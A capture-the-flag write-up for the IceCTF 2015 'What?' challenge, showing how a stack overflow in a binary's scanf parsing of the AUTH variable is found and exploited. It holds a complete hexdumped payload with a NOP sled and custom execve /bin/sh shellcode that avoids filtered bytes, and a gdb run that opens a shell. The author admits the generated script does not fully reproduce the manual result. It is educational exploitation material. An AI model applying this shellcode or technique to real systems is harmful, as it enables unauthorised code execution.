


# IceCTF 2015: ...What?

**Category:** Binary Exploitation
**Points:** 190
**Description:** 

> Uh, what? <code>/home/what</code>

**Hint:**

> It's a binary, but can you look at the code somehow?

## Write-up

This writeup is based on following writeups:

* <http://blog.atx.name/icectf/#What>
* <http://73696e65.github.io/blog/2015/08/24/icec-dot-tf-writeup/>

### Meta

Keywords:

* Stack Overflow in `__iso99_scanf`
* Check Evasion

We are given a stripped 32bit ELF for i386 Linux:

```bash
$ file what
what: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=2d9562c67216e855c9fcc76dab49e3ac7811770a, stripped
```

Running it:

```bash
$ ./what
IMPOSTOR!
```

Neither `strace -f ./what` nor `ltrace -f ./what` tell us more about why the binary only returns `IMPOSTOR!`.

So we analyze the binary in `radare2`:

```bash
[0x08048460]> aa
[0x08048460]> afl | sort -k1 | column -t
0x080483e0  16   2  sym.imp.getegid
0x080483f0  16   2  sym.imp.fwrite
0x08048400  16   2  sym.imp.getenv
0x08048420  16   2  sym.imp.exit
0x08048430  16   2  sym.imp.__libc_start_main
0x08048440  16   2  sym.imp.__isoc99_sscanf
0x08048450  16   2  sym.imp.setresgid
0x08048460  34   1  entry0
0x0804869e  211  6  main
```

Decompiling `main`:



We notice following:

* It checks if we provide two arguments: `ausgeschnitzel` and `flugelfragen` - Both pseud-German words without any meaning
* It also checks if the environment variable `AUTH` is set
* It calls an unknown (stripped) function at address `0x804857d` with parameter `AUTH`

We try our luck again by fulfilling the check requirements:

```bash
$ AUTH='' ./what ausgeschnitzel flugelfragen
ERROR: Incorrect format, should be 'WHO/WHY/ !
```

Decompiling function @ `0x804857d`:



We notice:

* `__iso99_scanf` is called and one of the arguments. The format is given at `0x0804859c` and printing the string via `radare2` yields:
```bash
[0x08048460]> ps @ str.____________ 
%[^/]/%[^/]/
```
* If the buffer string (content of `AUTH`) given to `__iso99_scanf` fits the format, we jump to `0x080485e5`
* It then checks if the second format argument is any of the strings `schadenfreude`, `faultier` or `drachenfutter` (Real German Words) and exits if otherwise
* After that, it writes "Authenticating..." to `stderr` and returns

We set `AUTH` once again according to the format and try our luck again:

```bash
$ AUTH='hello/faultier/' ./what ausgeschnitzel flugelfragen
Authenticating...
All done!
```

Reading the strings from `AUTH` (`WHO/WHAT/`) using `__iso99_scanf` without any further length checks leads to a stack overflow in this case.

The buffer to `WHO` is at `ebp - 0x88` (see `0x08048592`) and the buffer to `WHAT` is at `ebp - 0x108`.
However, `WHAT` has to be one of the above mentioned strings, e.g. `faultier`, which means we have to provide our payload to `WHO`.

To control `EIP`/`rip` we have to supply `4` (`ebp`) + `0x88`=`136` (offset to `WHO` buffer) bytes.

Since the format uses the character `0x2f` ('/') to split between `WHO` and `WHAT`, we cannot use standard shellcodes such as [this shell-storm shellcode](http://shell-storm.org/shellcode/files/shellcode-841.php).

Adding to that, we cannot use whitecharacters, since `__iso99_scanf` stops reading at them, too!

However, with the aid of [ODA](https://www.onlinedisassembler.com/odaweb/), disassembled code and an [Opcode reference manual](http://ref.x86asm.net/coder32.html), we can craft our own shellcode (and learn something)!

[This python code](./solve.py) modifies two out of three push instructions used to push the string `/bin///sh` to the stack and moving `0xb` to `eax` with some easy `add` and `sub` calculations to circumvent having any of the banned bytes in our shellcode.

Note that we have to rely on luck, since we cannot leak any stack address and have to guess a possible pointer (e.g. through `gdb`) to a crafted NOP-sled.

Running the solution writes our shellcode to a binary named `in`:

```bash
$ python solve.py
$ xxd in
0000000: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000010: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000020: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000030: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000040: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000050: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000060: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000070: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000080: 5045 5349 5045 4449 5045 4250 c8d2 ffff  PESIPEDIPEBP....
0000090: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000a0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000b0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000c0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000d0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000e0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000f0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000100: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000110: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000120: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000130: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000140: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000150: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000160: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000170: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000180: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000190: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00001a0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00001b0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00001c0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00001d0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00001e0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00001f0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000200: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000210: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000220: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000230: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000240: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000250: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000260: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000270: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000280: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000290: 6a68 b806 0606 5205 2929 2921 50b8 0639  jh....R.)))!P..9
00002a0: 4045 0529 2929 2950 89e3 31c9 6a41 5883  @E.))))P..1.jAX.
00002b0: e836 99cd 80                             .6...
```

We can verify that our shellcode doesnt contain any whitecharacters to stop `scanf` from reading using [this small C program](./scanf-test.c):

```bash
$ python -c 'print "hellofriend\x0b\hello"' | ./scanf-test
hellofriend
$ echo -n "/faultier/" >> in
$ cat in | ./scanf-test | xxd
0000000: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000010: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000020: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000030: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000040: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000050: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000060: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000070: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000080: 5045 5349 5045 4449 5045 4250 c8d2 ffff  PESIPEDIPEBP....
0000090: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000a0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000b0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000c0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000d0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000e0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000f0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000100: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000110: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000120: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000130: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000140: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000150: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000160: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000170: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000180: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000190: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00001a0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00001b0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00001c0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00001d0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00001e0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00001f0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000200: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000210: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000220: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000230: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000240: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000250: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000260: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000270: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000280: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000290: 6a68 b806 0606 5205 2929 2921 50b8 0639  jh....R.)))!P..9
00002a0: 4045 0529 2929 2950 89e3 31c9 6a41 5883  @E.))))P..1.jAX.
00002b0: e836 99cd 802f 6661 756c 7469 6572 2f0a  .6.../faultier/.
```

The python script should work, but somehow I don't get the same result as running the solution manually using `gdb` and with the generated shellcode. Please help me out, if you know why.

To get the flag, we simply have to set `AUTH` in a terminal and our args in `gdb`:

```bash
$ python solve.py
$ md5sum in
0df954f16cf78242a03d237b4ff53991  in
$ export AUTH=$(cat ./in)/faultier/
gdb-peda$ set args ausgeschnitzel flugelfragen
gdb-peda$ r
Starting program: /home/vbox/pwn/tasks/ice/what/what ausgeschnitzel flugelfragen
Authenticating...
process 7328 is executing new program: /bin/dash
$ xxd flag.txt
[New process 7332]
process 7332 is executing new program: /usr/bin/xxd
0000000: 666c 6167 5f73 7175 6561 6d69 7368 5f6f  flag_squeamish_o
0000010: 7373 6966 7261 6765 0a                   ssifrage.
$ [Inferior 2 (process 7332) exited normally]
Warning: not running or target is remote
```

The flag is `flag_squeamish_ossifrage`.

## Other write-ups and resources

* <http://blog.atx.name/icectf/#What>
* <http://73696e65.github.io/blog/2015/08/24/icec-dot-tf-writeup/>
